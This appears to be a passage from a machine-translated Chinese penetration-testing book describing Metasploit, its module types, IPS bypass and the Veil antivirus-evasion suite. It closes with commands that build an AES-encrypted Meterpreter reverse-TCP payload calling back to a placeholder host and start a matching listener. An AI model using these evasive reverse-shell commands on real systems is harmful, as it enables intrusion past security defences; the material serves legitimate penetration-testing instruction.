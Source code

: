 2003 年，H.D.Moore 创建了著名的 Metasploit 项目，最初是用 Perl 编写的。到 2007 年，框架完全用 Ruby 重新编码；到 2009 年 10 月，他把它卖给了 Nexpose 的创建者 Rapid7。许多年后由于 H.D.Moore 的销售规定，框架仍然是免费提供的产品。通过该框架，Rapid7 创建了一个专业产品，恰当地称为 Metasploit Pro。

Pro 解决方案具有许多框架没有的功能，例如集成到 Nexpose、原生**入侵防御系统**（**IPS**）绕过有效负载、web**图形用户界面**（**GUI**）和多用户功能。这些额外功能的价格很高，但根据您的市场，有些客户需要支付所有工具的费用，因此请记住专业版。如果您不需要为 Metasploit 付费，并且不需要其他特性，那么该框架就足够了。

请记住，Metasploit Pro 中的 IPS 旁路工具内置了许多不同的规避方法。其中一个特点是每次攻击代码的结构都略有不同。因此，如果 IPS 旁路一次失败，它可能会在同一主机上再次运行，只需重新运行它。这并不意味着如果你运行了 10 次，如果前 9 次失败，你将在第 10 次得到正确的结果。因此，请注意并了解与`psexec`相关的错误消息以及系统的开发。

如果需要，可以从 Metasploit 运行整个评估；这不是建议的，但该工具正是如此强大。Metasploit 是模块化的；事实上，Metasploit 中的组件称为模块。模块分为以下几类：

*   辅助模块
*   利用模块
*   Post 模块
*   有效载荷模块
*   NOP 模块
*   编码器模块

辅助模块包括扫描仪、暴力工具、漏洞评估工具和服务器模拟器。漏洞利用就是可以运行来利用接口服务或其他解决方案的工具。Post 模块用于提升权限、提取数据或与系统上的当前用户交互。有效载荷提供了一种封装的交付工具，一旦获得对系统的访问，就可以使用该工具。配置漏洞利用模块时，通常必须配置有效负载模块，以便返回 shell。

**无操作**（**NOP**模块生成对特定硬件架构不做任何操作的操作。这些在创建或修改漏洞利用时非常有用。Metasploit 中的最后一种模块类型是编码器模块。对于编码器以及它们的用途存在着巨大的误解。实际情况是，它们用于通过更改有效负载的结构来删除某些类型的字符，从而使有效负载的执行更加可靠。这将重新格式化原始有效载荷的操作代码，使有效载荷更大，有时甚至更大。

偶尔，有效负载结构的这种变化意味着它将绕过严格依赖于特定签名的 IP。这导致许多评估人员相信编码是用于绕过防病毒的；这只是编码的副产品，而不是目的。如今，编码很少绕过企业级 IPS 解决方案。其他产品，如面纱，提供了一个更合适的解决方案，这个泥潭。由于大多数漏洞利用都可以引用外部有效负载，因此即使您使用的是 Metasploit 的 Pro 版本，也最好使用像 Veil 这样的外部解决方案。有时 Metasploit Pro 的 IPS 旁路功能将不起作用；在此期间，可能需要其他工具。Metasploit 将在本模块的其他章节中详细介绍。

## 面纱

此防病毒规避套件具有多种生成有效负载的方法。这些有效负载类型利用了经验丰富的评估人员和恶意参与者多年来手动使用的方法。该包括使用**高级加密标准**（**AES**对有效载荷进行加密、编码和随机变量名。然后，可以将这些细节包装在 PowerShell 或 Python 脚本中，以使生活更加轻松。

VIEL 可以通过**命令行界面**（**CLI**）或类似于 Metasploit 的控制台启动。例如，以下命令显示了创建 PyInjector 漏洞的 CLI 的用法，该漏洞可拨回端口 80 上的侦听主机；如果您希望测试此项，请确保将“您的 IP”替换为您的实际 IP。

```
./Veil.py -l python -p AESVirtualAlloc -o \
python_payload --msfpayload \
windows/Meterpreter/reverse_tcp --msfoptions \
LHOST=yourIP LPORT=80

```

现在，继续启动 Metasploit 控制台，并使用以下命令启动侦听器。这将启动控制台；确保等待它启动。此外，它在您的主机上设置了一个侦听器，因此请确保用实际的 IP 地址替换“yourIP”。侦听器将在后台运行，等待返回的会话。

```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lport 80
set lhost yourIP
exploit -j

```
